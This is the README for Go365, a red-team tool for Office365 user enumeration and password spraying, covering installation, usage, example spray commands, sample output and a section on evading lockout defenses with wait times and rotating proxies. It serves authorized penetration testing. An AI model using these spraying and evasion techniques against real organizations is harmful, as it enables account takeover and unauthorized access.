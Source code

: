 # Go365

**This tool is still in development. Please read all of this README before using Go365!**

Go365 is a tool designed to perform user enumeration and password guessing attacks on organizations that use Office365 (now/soon Microsoft365). Go365 uses a unique SOAP API endpoint on login.microsoftonline.com that most other tools do not use. When queried with an email address and password, the endpoint responds with an Azure AD Authentication and Authorization code. This code is then processed by Go365 and the result is printed to screen or an output file.


##### Read these three bullets!
- This tool might not work on **all** domains that utilize o365. Tests show that it works with most federated domains. Some domains will only report valid users even if a valid password is also provided. Your results may vary!
- The domains this tool was tested on showed that it did not actually lock out accounts after multiple password failures. Your results may vary!
- This tool is intended to be used by security professionals that are authorized to "attack" the target organization's o365 instance.


## Obtaining

#### Option 1
Download a pre-compiled binary for your OS [HERE](https://github.com/optiv/Go365/releases).

#### Option 2
Download the source and compile locally.
1. Install Go.
2. Go get some packages:
	```
  go get github.com/beevik/etree
	go get github.com/fatih/color
	go get golang.org/x/net/proxy
  ```
3. Clone the repo.
4. Navigate to the repo and compile ya dingus.

	```go build Go365.go```
5. Run the resulting binary and enjoy :)


## Usage
``` 
$ ./Go365 -h

  ██████         ██████   ██████  ██████
 ██                   ██ ██       ██
 ██  ███   ████   █████  ███████  ██████
 ██    ██ ██  ██      ██ ██    ██      ██
  ██████   ████  ██████   ██████  ██████

 Version: 0.1
 Authors: h0useh3ad, paveway3, S4R1N

 This tool is currently in development.

 Usage:
     ./Go365 -ul <userlist> -p <password> -d <domain> [OPTIONS]
 Options:
     -h,            Show this stuff

   Required:
     -ul <file>             Username list to use
                              - file should contain one username per line WITHOUT "@domain.com"
                              (-ul ./usernamelist.txt)
     -p <string>            Password to attempt
                              - enclose in single quotes if it contains special characters
                              (-p password123  OR  -p 'p@s$w0|2d')
     -d <string>            Domain to test
                              (-d testdomain.com)

   Opions:
     -w <int>              Time to wait between attepmts in seconds.
                              - Default: 1 second. 5 seconds recommended.
                              (-w 10)
     -o <string>           Output file to write to
                              - Will overwrite!
                              (-o ./output.out)
     -proxy <string>       Single proxy server to use
                              - IP address and Port separated by a ":"
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxy 127.0.0.1:1080)
     -proxyfile <string>    A file with a list of proxy servers to use
                              - IP address and Port separated by a ":" on each line
                              - Randomly selects a proxy server to use before each request
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxyfile ./proxyfile.txt)

 Examples:
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxy 127.0.0.1:1080
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxyfile ./proxyfile.txt

```



### Examples
_no u_




## Account Locked Out! (Domain Defenses)

**protip:** _You probably aren't **actually** locking out acocunts._

After a number of queries against a target domain, results might start reporting that accounts are locked out.

Once this defense is triggered, **user enumeration becomes unreliable since both valid and invalid will randomly report that their accounts have been locked out**.
```
...
[-] User not found: test.user90@pwnthisfakedomain.com
[-] User not found: test.user91@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user92@pwnthisfakedomain.com
[!] Account Locked Out: real.user1@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user93@pwnthisfakedomain.com
[!] Account Locked Out: valid.user94@pwnthisfakedomain.com
[!] Account Locked Out: jane.smith@pwnthisfakedomain.com
[-] Valid user, but invalid password: real.user95@pwnthisfakedomain.com
[-] Valid user, but invalid password: fake.user96@pwnthisfakedomain.com
[!] Account Locked Out: valid.smith@pwnthisfakedomain.com
...
```


This is a defensive mechanism triggered by the number of **valid** user queries against the target domain within a certain period of **time**. The number of attempts and the period of time will vary depending on the target domain since the thresholds can be customized by the target organization.


### Countering Defenses
The defensive mechanism is **time** and **IP address** based. Go365 provides options to include a wait time between requests and proxy options to distribute the source of the requests. To circumvent the defensive mechanisms on your target domain, use a long wait time and multiple proxy servers.

A wait time of AT LEAST 15 seconds is recommended. ``` -w 15```

If you still get "account locked out" responses, start proxying your requests.

Note: Proxy options have only been tested on SSH dynamic proxies. 

Create a bunch of SOCKS5 proxies and make a file that looks like this:
```
127.0.0.1:8081
127.0.0.1:8082
127.0.0.1:8083
127.0.0.1:8084
127.0.0.1:8085
127.0.0.1:8086
...
```
The tool will randomly iterate through the provided proxy servers and wait for the specified amount of time between requests.

 ```-w 15 -proxyfile ./proxies.txt```


### Example
Watch this tool in action! https://www.youtube.com/watch?v=b9CK37sqoz0
